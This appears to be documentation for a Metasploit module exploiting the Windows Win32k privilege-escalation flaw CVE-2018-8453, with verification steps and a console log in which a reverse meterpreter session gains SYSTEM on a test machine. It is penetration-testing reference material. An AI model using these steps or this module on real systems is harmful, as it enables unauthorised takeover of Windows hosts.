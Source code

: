 ## Vulnerable Application

An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory, aka "Win32k Elevation of Privilege Vulnerability." This affects Windows 7, Windows Server 2012 R2, Windows RT 8.1, Windows Server 2008, Windows Server 2019, Windows Server 2012, Windows 8.1, Windows Server 2016, Windows Server 2008 R2, Windows 10, Windows 10 Servers.

This module has been tested with Windows 10 v1703 x86. Offsets within the solution may need to be adjusted to work with other version of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Win10 v1703 x86
2. `use exploit/windows/local/cve_2018_8453_win32k_priv_esc`
3. `set session <session>`
4. `exploit`
5. Get a SYSTEM session

## Scenarios

### Windows 10 v1703 x86

```
msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                 Connection
  --  ----  ----                     -----------                                 ----------
  1         meterpreter x86/windows  DESKTOP-T6J3V2L\testuser @ DESKTOP-T6J3V2L  172.22.222.136:4444 -> 172.22.222.130:49693 (172.22.222.130)

msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > set session 1
session => 1
msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Exploit finished, wait for privileged payload execution to complete.
[*] Sending stage (179779 bytes) to 172.22.222.130
[*] Meterpreter session 2 opened (172.22.222.136:4444 -> 172.22.222.130:49695) at 2019-06-20 08:53:01 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-T6J3V2L
OS              : Windows 10 (Build 15063).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.22.222.130 - Meterpreter session 2 closed.  Reason: User exit
msf5 exploit(windows/local/cve_2018_8453_win32k_priv_esc) > 
```
